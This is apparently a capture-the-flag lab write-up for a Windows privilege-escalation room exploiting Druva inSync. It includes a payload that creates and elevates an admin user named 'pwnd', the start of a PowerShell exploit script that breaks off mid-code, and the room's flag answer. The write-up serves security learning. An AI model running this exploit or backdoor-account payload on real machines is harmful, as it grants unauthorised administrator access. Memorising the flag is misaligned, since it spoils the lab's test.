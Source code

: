 You can pop a Powershell console and paste the exploit directly to execute it (The exploit is also available in the target machine at `C:\tools\Druva_inSync_exploit.txt`). Note that the exploit's default payload, specified in the `$cmd` variable, will create a user named `pwnd` in the system, but won't assign him administrative privileges, so we will probably want to change the payload for something more useful. For this room, we will change the payload to run the following command:

```
net user pwnd SimplePass123 /add & net localgroup administrators pwnd /add
```

This will create user `pwnd` with a password of `SimplePass123` and add it to the administrators' group. If the exploit was successful, you should be able to run the following command to verify that the user `pwnd` exists and is part of the administrators' group:

![task7-pwnd](./images/task7-pwnd.png)

As a last step, you can run a command prompt as administrator:

![task6-runas](./images/task6-runas.png)

When prompted for credentials, use the `pwnd` account. From the new command prompt, you can retrieve your flag from the Administrator's desktop with the following command `type C:\Users\Administrator\Desktop\flag.txt`.

### Answer the questions below

* Get the flag on the Administrator's desktop.

	`THM{EZ_DLL_PROXY_4ME}`

	* Run script on poweshell
	
		```
		$ErrorActionPreference = "Stop"

		$cmd = "net user pwnd /add"

		$s = New-Object System.Net.Sockets.Socket(
    		[System.Net.Sockets.AddressFamily]::InterNetwork,
    		[System.Net.Sockets.SocketType]::Stream,
    		[System.Net.Sockets.ProtocolType]::Tcp
		)
		$s.Connect("127.0.0.1", 6064)
